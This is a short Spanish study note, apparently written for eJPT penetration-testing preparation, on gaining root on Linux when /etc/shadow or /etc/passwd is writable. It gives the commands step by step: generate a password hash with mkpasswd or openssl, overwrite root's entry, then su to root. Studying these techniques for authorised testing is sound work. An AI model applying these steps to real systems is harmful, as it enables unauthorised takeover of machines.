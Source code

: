 # Archivo escribible:  /etc/shadow

- El archivo /etc/shadow contiene hashes de contraseñas de usuario y normalmente sólo puede leerlo el usuario root.

```
ls -l /etc/shadow
```

- Genera un nuevo hash de contraseña con una contraseña de tu elección:

```
mkpasswd -m sha-512 "nueva contraseña"
```

- Edite el archivo /etc/shadow y reemplace el hash de contraseña del usuario root original con el que acaba de generar.

- Cambie al usuario root, usando la nueva contraseña:

```
su root
```


# Archivo escribible:   /etc/passwd

- El archivo /etc/passwd contiene información sobre las cuentas de usuario. Es legible en todo el mundo. Pero generalmente sólo el usuario root puede escribirlo. Históricamente, el archivo /etc/passwd contenía hashes de contraseñas de usuario, y algunas versiones de Linux aún permitirán que los hashes de contraseñas se almacenen allí.

```
ls -l /etc/passwd
```

- Genera un nuevo hash de contraseña con una contraseña de tu elección:

```
openssl passwd "nueva contraseña"
```

- Edite el archivo /etc/passwd y coloque el hash de contraseña generado entre el primer y segundo dos puntos (:) de la fila del usuario root . Cambie al usuario root, usando la nueva contraseña:

```
su root
```

Eenlace:
[[Preparacion-Ejpt]]
[[Permisos de archivos débiles-Legible]]
